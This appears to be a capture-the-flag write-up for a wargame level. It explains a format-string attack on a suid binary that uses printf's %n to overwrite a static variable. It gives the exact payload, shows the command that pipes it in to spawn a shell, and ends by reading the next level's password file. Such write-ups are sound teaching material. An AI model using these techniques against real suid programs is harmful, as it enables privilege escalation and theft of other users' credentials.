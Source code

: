 # Level3

## Context & Explanation
 * There is one file in our home, ```level3```, belonging to ```level4``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

 * We run the program with gdb and we observe that:
 	* `main()` only calls `v()`
	* `v()` makes use of `fgets()` with an on stack array of size `0x200`
	* It then calls printf with our input as the format string
	* If we get the `static int m` to equal `0x40` the function will call `system("/bin/sh")` and allow us to get the flag.

 * We have the appropriate setup for a [Format-String attack](http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf), because printf makes use of a buffer user filled:
    * We want to modify the value of `static int m` to equal `0x40`. It's address is `0x804988c`
		* printf modifier `%n` consider argument as `int*` and write there the number of character written until this modifier, so it needs to be `0x40`
		* we now have to write and access this pointer to `static int m`.
	* When `printf()` is called here is the stack layout:
		1. ESP + 00 [4 octets:		printf format string pointer]
		2. ESP + 04 [4 octets:		data from previous actions  ]
		3. ESP + 08 [4 octets:		data from previous actions  ]
		4. ESP + 12 [4 octets:		data from previous actions  ]
		5. ESP + 16 [0x200 octets:	begining of format buffer   ]

	* So our format should look this way:
		* [m address][%08x]*3[filler text to write in total `0x40` octets][%n]
			* [m address] needs to be written in reverse to fit endianness
			* Each of the [%08x] allows us to access the next stack argument.
			* we can make use of the width modifier argument to easily get to `0x40` written octets.
		* This would be our format string, with `[]` delimiting each part: `[\x8c\x98\x04\x08][%08x%08x%044x][%n]`

## Resolution

	1. We generate our future format string using this command:
```sh
python -c "print('\x8c' + '\x98' + '\x04' + '\x08' + '%08x%08x%044x%n')" > /var/crash/injection_lvl3
```
	2. We launch `level3` by making use of cat with our custom file, with `-` as a second argument, so once the file has been read, cat will transmit stdin :
```sh
cat /var/crash/injection_lvl3  - | ./level3
```
	3. Inside the newly opened shell session we now only have execute these commands:
```sh
cd ..
cd level4
cat .pass
```
